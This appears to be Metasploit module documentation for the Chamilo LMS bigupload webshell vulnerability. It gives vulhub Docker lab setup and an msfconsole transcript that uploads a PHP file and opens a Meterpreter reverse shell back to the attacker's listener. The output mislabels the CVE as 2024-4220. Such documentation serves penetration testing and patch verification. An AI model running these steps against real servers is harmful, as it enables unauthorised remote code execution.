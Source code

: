 ## Vulnerable Application

Chamilo LMS is a free software e-learning and content management system. In versions prior to <= v1.11.24
a webshell can be uploaded via the bigload.php endpoint. If the GET request parameter `action` is set to
`post-unsupported` file extension checks are skipped allowing for attacker controlled .php files to be uploaded to:
`/main/inc/lib/javascript/bigupload/files/` if the `/files/` directory already exists - it does not exist
by default.

### Setup

A vulnerable docker-compose configuration can be found at the following link: https://github.com/vulhub/vulhub/pull/559

1. Clone the repo `git clone https://github.com/vulhub/vulhub.git`
1. Checkout the pull request mentioned above: `git checkout CVE-2023-4220`
1. Run `cd vulhub/chamilo/CVE-2023-4220`
1. Start the environment: `docker compose up`
1. Navigate to `http://127.0.0.1:8080` to complete the installation wizard.
1. Note when filling out the database IP address and credentials - the DB hostname is the name of the container which is
   `mariadb` (not `localhost` or `127.0.0.1`).
1. Once the installation wizard is complete the target should be ready to be
   exploited with the module. This container has the non-default `/files/` directory created already.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/chamilo_bigupload_webshell`
1. Set the `RHOST`, `RPORT`, and `LHSOT` options
1. Run the module
1. Receive a Meterpreter session as the `www-data` user.

## Scenarios

### Chamilo 1.11.18 running in Docker

```
msf6 > use linux/http/chamilo_bigupload_webshell
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/chamilo_bigupload_webshell) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(linux/http/chamilo_bigupload_webshell) > set rport 8080
rport => 8080
msf6 exploit(linux/http/chamilo_bigupload_webshell) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/chamilo_bigupload_webshell) > show options

Module options (exploit/linux/http/chamilo_bigupload_webshell):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/chamilo_bigupload_webshell) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The directory /main/inc/lib/javascript/bigupload/files/ exists on the target indicating the target is vulnerable.
[+] The target is vulnerable. File upload was successful (CVE-2024-4220 was exploited successfully).
[*] Sending stage (40004 bytes) to 172.16.199.1
[+] Deleted 1nZaWHvP
[+] Deleted kFAqQcbWxs.php
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.1:60031) at 2024-11-11 10:42:06 -0800

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : c2064983b0e1
OS          : Linux c2064983b0e1 6.10.11-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Oct  3 10:19:48 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
```
